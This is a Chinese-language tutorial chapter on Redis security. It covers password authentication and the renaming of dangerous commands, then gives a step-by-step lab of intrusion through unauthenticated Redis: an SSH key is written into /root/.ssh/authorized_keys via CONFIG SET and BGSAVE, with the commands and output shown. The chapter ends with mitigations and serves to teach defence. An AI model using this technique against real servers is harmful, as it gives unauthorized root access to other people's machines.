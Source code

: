 # 第4章 Redis安全管理

## 1.Redis用户密码

### 1）配置密码认证功能

```bash
requirepass 123456
```

### 2）使用密码

第一种：

```bash
[root@db-51 ~]# redis-cli
127.0.0.1:6379> set k1 v1
(error) NOAUTH Authentication required.
127.0.0.1:6379> AUTH 123456
OK
127.0.0.1:6379> keys *
1) "k1"
```

第二种：

```bash
[root@db-51 ~]# redis-cli -a '123456' get k1
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
"v1"
```

### 3）为什么redis的密码认证这么简单?

1.redis一般都部署在内网环境，相对比较安全的

2.有同学担心密码写在配置文件里，不用担心，因为开发不允许SSH登陆到Linux服务器，但是可以远程连接Redis，所以设置密码还是有作用的

## 2.禁用或重命名危险命令

### 1）禁用危险命令

```bash
rename-command KEYS ""
rename-command SHUTDOWN ""
rename-command CONFIG ""
rename-command FLUSHALL ""
```

### 2）命名危险命令

```bash
rename-command KEYS "QQ526195417"
rename-command SHUTDOWN ""
rename-command CONFIG ""
rename-command FLUSHALL ""
```

## 3.利用Redis远程入侵Linux

### 1）前提条件

```plain
1.redis以root用户运行
 2.redis允许远程登陆
 3.redis没有设置密码或者密码简单
```

### 2）入侵原理

```plain
1.本质是利用了redis的热更新配置，可以动态的设置数据持久化的路径和持久化文件名称
 2.首先攻击者可以远程登陆redis，然后将攻击者的ssh公钥当作一个key存入redis里
 3.利用动态修改配置，将持久化目录保存成/root/.ssh
 4.利用动态修改配置,将持久化文件名更改为authorized_keys
 5.执行数据保存命令，这样就会在生成/root/,ssh/authorized_keys文件
 6.而这个文件里包含了攻击者的密钥，所以此时攻击者可以免密登陆远程的服务器了
```

### 3）实验步骤

#### 1.生成密钥

```plain
 [root@db02 ~/.ssh]# ssh-keygen
```

#### 2.将密钥保存成文件

```plain
[root@db02 ~]# (echo -e "\n";cat /root/.ssh/id_rsa.pub ;echo -e "\n") > ssh_key
 [root@db02 ~]# cat ssh_key 
 
 ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDH5vHJTq1UPP1YqzNUIfpXgWp5MV/hTzXStnT/JlusMG8/8DI2WYpbM20Pag5VlYKO8vA7Mn0ZbMmbpHUMOHLKmXK0y4k0bkYoSPTwbxP4a4paPLF50d+LRazqNq+P2RTnn7P9pG0kdSmpwDgcD32JjMJ7zxLFVbtsuOPfUHpnkvoI8967JC9kw/FH4CifZ+yyAneMxyqFstfKRPqUK0lwA/D5UuD4B4gv4WO6hu1bctHtI8qbIfSmHCgBrCG4qW+Xw1OWDimCLUwKUFW99RfVhzfmm9pTes+2twuf7wFK06LZVzcmfaXt43SFNLcVMMTn4RX0tzZyqVGYFtn94sOn root@db02
```

#### 3.将密钥写入redis

```plain
[root@db02 ~]# cat ssh_key |redis-cli -h 10.0.0.51 -x set ssh_key
 OK
```

#### 4.登陆redis动态修改配置并保存

```plain
[root@db02 ~]# redis-cli -h 10.0.0.51                                                   
 10.0.0.51:6379> CONFIG set dir /root/.ssh
 OK
 10.0.0.51:6379> CONFIG set dbfilename authorized_keys 
 OK
 10.0.0.51:6379> BGSAVE
 Background saving started
```

#### 5.被攻击的机器查看是否生成文件

 [root@db01 ~]# cat .ssh/authorized_keys 

#### 6.入侵者查看是否可以登陆

```plain
[root@db02 ~]# ssh 10.0.0.51                                                   
 Last login: Wed Jun 24 23:00:14 2020 from 10.0.0.52
 [root@db01 ~]#
```

此时可以发现，已经可以免密登陆了。

#### 7.如何防范

```plain
1.以普通用户启动redis,这样就没有办法在/root/目录下创建数据
 2.设置复杂的密码
 3.不要监听所有端口，只监听内网地址
 4.禁用动态修改配置的命令和危险命令
 5.做好监控和数据备份
```


 